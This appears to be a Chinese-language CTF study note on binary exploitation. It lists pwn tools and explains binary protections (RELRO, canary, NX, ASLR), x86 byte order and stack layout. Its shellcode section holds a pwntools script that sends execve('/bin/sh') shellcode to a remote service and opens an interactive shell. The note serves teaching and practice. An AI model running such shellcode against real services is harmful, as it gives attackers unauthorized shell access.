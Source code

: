 # Pwn

### Pwn工具
???+ abstract "tools"

    - 脚本编写
        * pwntools：写exp和poc的利器
    - 调试工具
        * GDB: Linux调试中必要用到的
        * gdb-peda、pwndbg、gef: GDB调试插件
        * windbg: windows环境    
    - 程序信息
        * checksec：可以很方便的知道elf程序的安全性和程序的运行平台
        * objdump ：可以很快的知道elf程序中的关键信息
        * readelf：可以很快的知道elf程序中的关键信息
        * file：查看文件类型
    - 反汇编 
        * IDA pro：反汇编工具
        * ghidra：反汇编工具，冷门架构
    - libc相关     
        * libc-databases：可以通过泄露的libc的某个函数地址查出远程系统是用的哪个libc版本
        * ROPgadget：强大的rop利用工具
        * one_gadget：可以快速的寻找libc中的调用exec('/bin/sh')的位置
     
    - 需要注意gdb中的栈空间和直接运行是不一样的，即使关闭了ASLR

### Shellcode
* `checksec`检测程序防御方式
* pwntools编写shellcode攻击脚本
* `cyclic 10`生成大小为10字符串
* [shellcode exp](http://shell-storm.org/shellcode/)
???+ abstract "shellcode"

    === "Python"

        ``` python linenums="1"
        from pwn import *

        context.update(arch='i386', os='linux')
        # context.log_level = 'debug'
        r = remote('0.0.0.0', 11003)

        shellcode = asm('''
                mov edx, 0
                mov ecx, 0
                push 0x68732f
                push 0x6e69622f
                mov ebx, esp
                mov eax, 0xb
                int 0x80
        ''')
        r.send(shellcode)
        r.interactive()
        ```

### Defense
* 用`checksec`检测二进制文件防御手段

???+ abstract "Defense"

    ```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)    
    ```


#### RELRO
* 开启说明got表不可修改

#### Canary
* 堆栈金丝雀，在函数调用时写入cookie，在返回时检查

#### NX
* 栈不可执行

#### ASLR
* 地址空间随机化ASLR(address space layout randomization)
* 即PIE
* 0 - 表示关闭进程地址空间随机化
* 1 - 表示将mmap的基址，stack和vdso页面随机化
* 2 - 表示在1的基础上增加堆（heap）的随机化



### x86

#### x86寄存器
??? abstract "x86 register"

    ![](register1.png)
    ![](register2.png)


#### x86函数调用栈
* 我们总是可以看到，如果按处理器位长寻址，那么地址是+4或者+8，一个地址包含了4字节或8字节的数据（32bit或64bit）
* 如果按字节寻址，那么地址总是+1，一个地址包含了1字节的数据（8bit），可见无论处理器位长为多少，一个地址所能代表的最小单位都是一字节
???+ info "字节序"

    * [wiki百科](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F)
    * 对于多字节处理器位长而言，字节序有大端小端之分，字节序指的是多字节编码中以字节为单位排布的顺序，即8bit为一组，字节内部的顺序是不变的
    * 因此将一个地址上的内容输出和将一个地址上的内容按字节增长顺序输出，小端法得到的结果是不一样的，大端法会得到相同的结果
    - 数`0x12345678`的32位补码表示`0001 0010 0011 0100 0101 0110 0111 1000`
        * 32bit大端法表示`12 34 56 78` 补码表示`0001 0010 0011 0100 0101 0110 0111 1000`
        * 32bit小端法表示`78 56 34 12` 补码表示`0111 1000 0101 0110 0011 0100 0001 0010`


    === "地址向右增长(易于理解,与上述解释匹配)"

        ```
        High
        Address       | 32bit 4Byte     |
                      +-----------------+
                      | 大端法           |
                      +-----------------+
        Address    => | 0x4 0x5 0x6 0x7 |                      
        0x00000004 => | 12  34  56  78  |
                      +-----------------+
                      | 小端法           |
                      +-----------------+
        Address    => | 0x4 0x5 0x6 0x7 |                      
        0x00000004 => | 78  56  34  12  |
                      +-----------------+
        Low           0------->>-------31
        Address
        ```

    === "地址向左增长(与寄存器和下述栈结构匹配)"

        ```
        High
        Address       | 32bit 4Byte     |
                      +-----------------+
                      | 大端法           |
                      +-----------------+
        Address    <= | 0x7 0x6 0x5 0x4 |                      
        0x00000004 => | 78  56  34  12  |
                      +-----------------+
                      | 小端法           |
                      +-----------------+
        Address    <= | 0x7 0x6 0x5 0x4 |                      
        0x00000004 => | 12  34  56  78  |
                      +-----------------+
        Low           31-------<<-------0
        Address
        ```

* 栈是从上到下增长的
* x86的函数参数储存在栈中，而x86-64前6个参数储存在寄存器中，剩下的储存在栈中
???+ abstract "x86的栈结构"

    === "x86"

        ![](x86-32stack.jpg)

    === "x86-64"

<!--     
    === "x86"

        ```
        High  Address | 32bit 4Byte     |
                      +-----------------+
                      |                 |
                      +-----------------+
                      | args #n         |
        ebp+4*(1+n) =>+-----------------+
                      | ......          |
                      +-----------------+
                      | args #2         |
                      +-----------------+
                      | args #1         |
              ebp+8 =>+-----------------+
                      | return address  |
              ebp+4 =>+-----------------+
                      | old ebp address |
              ebp   =>+-----------------+
                      | Callee saved reg|
              ebp-4 =>+-----------------+
                      | ...             |
              ebp-8 =>+-----------------+
                      | ...             |
                      +-----------------+
                      | return address  |
              esp =>  +-----------------+
                      | next stack frame|
                      +-----------------+
                      |                 |
        Low  Address  31-------<<-------0
        ```
        
    === "x86-64"

        ```
        High
        Address | 64bit 8Byte                       |
                +-----------------------------------+
                | args                              |
                +-----------------------------------+
                | return address                    |
                +-----------------------------------+
        rbp =>  | old ebp                           |
                +-----------------------------------+
        rbp-8 =>|                                   |
                +-----------------------------------+
                | local variables                   |
        Low     63----------------<<----------------0
        Address
        ``` -->



